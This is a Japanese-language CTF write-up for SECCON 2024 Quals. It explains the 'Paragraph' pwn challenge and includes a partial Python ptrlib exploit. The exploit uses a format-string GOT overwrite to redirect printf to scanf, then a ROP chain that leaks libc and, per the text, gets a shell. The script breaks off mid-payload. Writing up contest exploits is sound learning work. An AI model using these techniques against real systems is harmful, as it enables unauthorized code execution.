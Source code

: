# SECCON 2024 Quals Writeup

- Paragraph
- Make ROP Great Again
- BabyQEMU

の3問を解きました。

## [pwn] Paragraph
自明FSBがある。no-pieなので、printf@gotを改ざんできる。今回はscanf@pltへ改ざんする。
printfが死んでもputsがいるので遠慮はいらない。

改ざんすると

```c
scanf(" answered, a bit confused.\n\"Welcome to SECCON,\" the cat greeted %s warmly.\n", name);
```

が呼ばれることになるので、無制限なStack BoFが手に入る。一回目は`puts(puts)`でリーク、二回目に入ってlibc ROPすればシェル。

```python
#!/bin/python3

from ptrlib import *
import time
import code
import struct

is_remote = True

libc = ELF("./libc.so.6") # we got libc from Dockerfile

elf = ELF("./chall_patched") # i recommend to use pwninit
symbols = elf.symbols()

# sock = Process("./chall_patched")
# sock = Process("./chall")
# input("Attach gdb")
sock = Socket("paragraph.seccon.games", 5000)

sock._debug = True

input("attach gdb")

# 0x401060 is plt of scanf
sock.sendlineafter(b'asked.\n', (f'%{0x401060}c%8$lnXX'.encode().ljust(16, b'\x01') + p64(elf.got('printf')))[:23])
# now printf@got is 0x401060(scanf@plt)

sock.recvuntil(b'XX') # XX is sentinel
sock.recv(6) # skip garbage

# we can use following gadget
# `scanf(" answered, a bit confused.\n\"Welcome to SECCON,\" the cat greeted %s warmly.\n", name);`

payload = flat([
    0xdeadbeef,  # fill the buffer
    0xdeadbeef, 
    0xdeadbeef, 
    0xdeadbeef, 
    0xdeadbeef, 
    next(elf.gadget("pop rdi; ret")),
    elf.got("puts"),
    0x401030, # puts@plt
    # puts(puts) leads to leak libc address!
```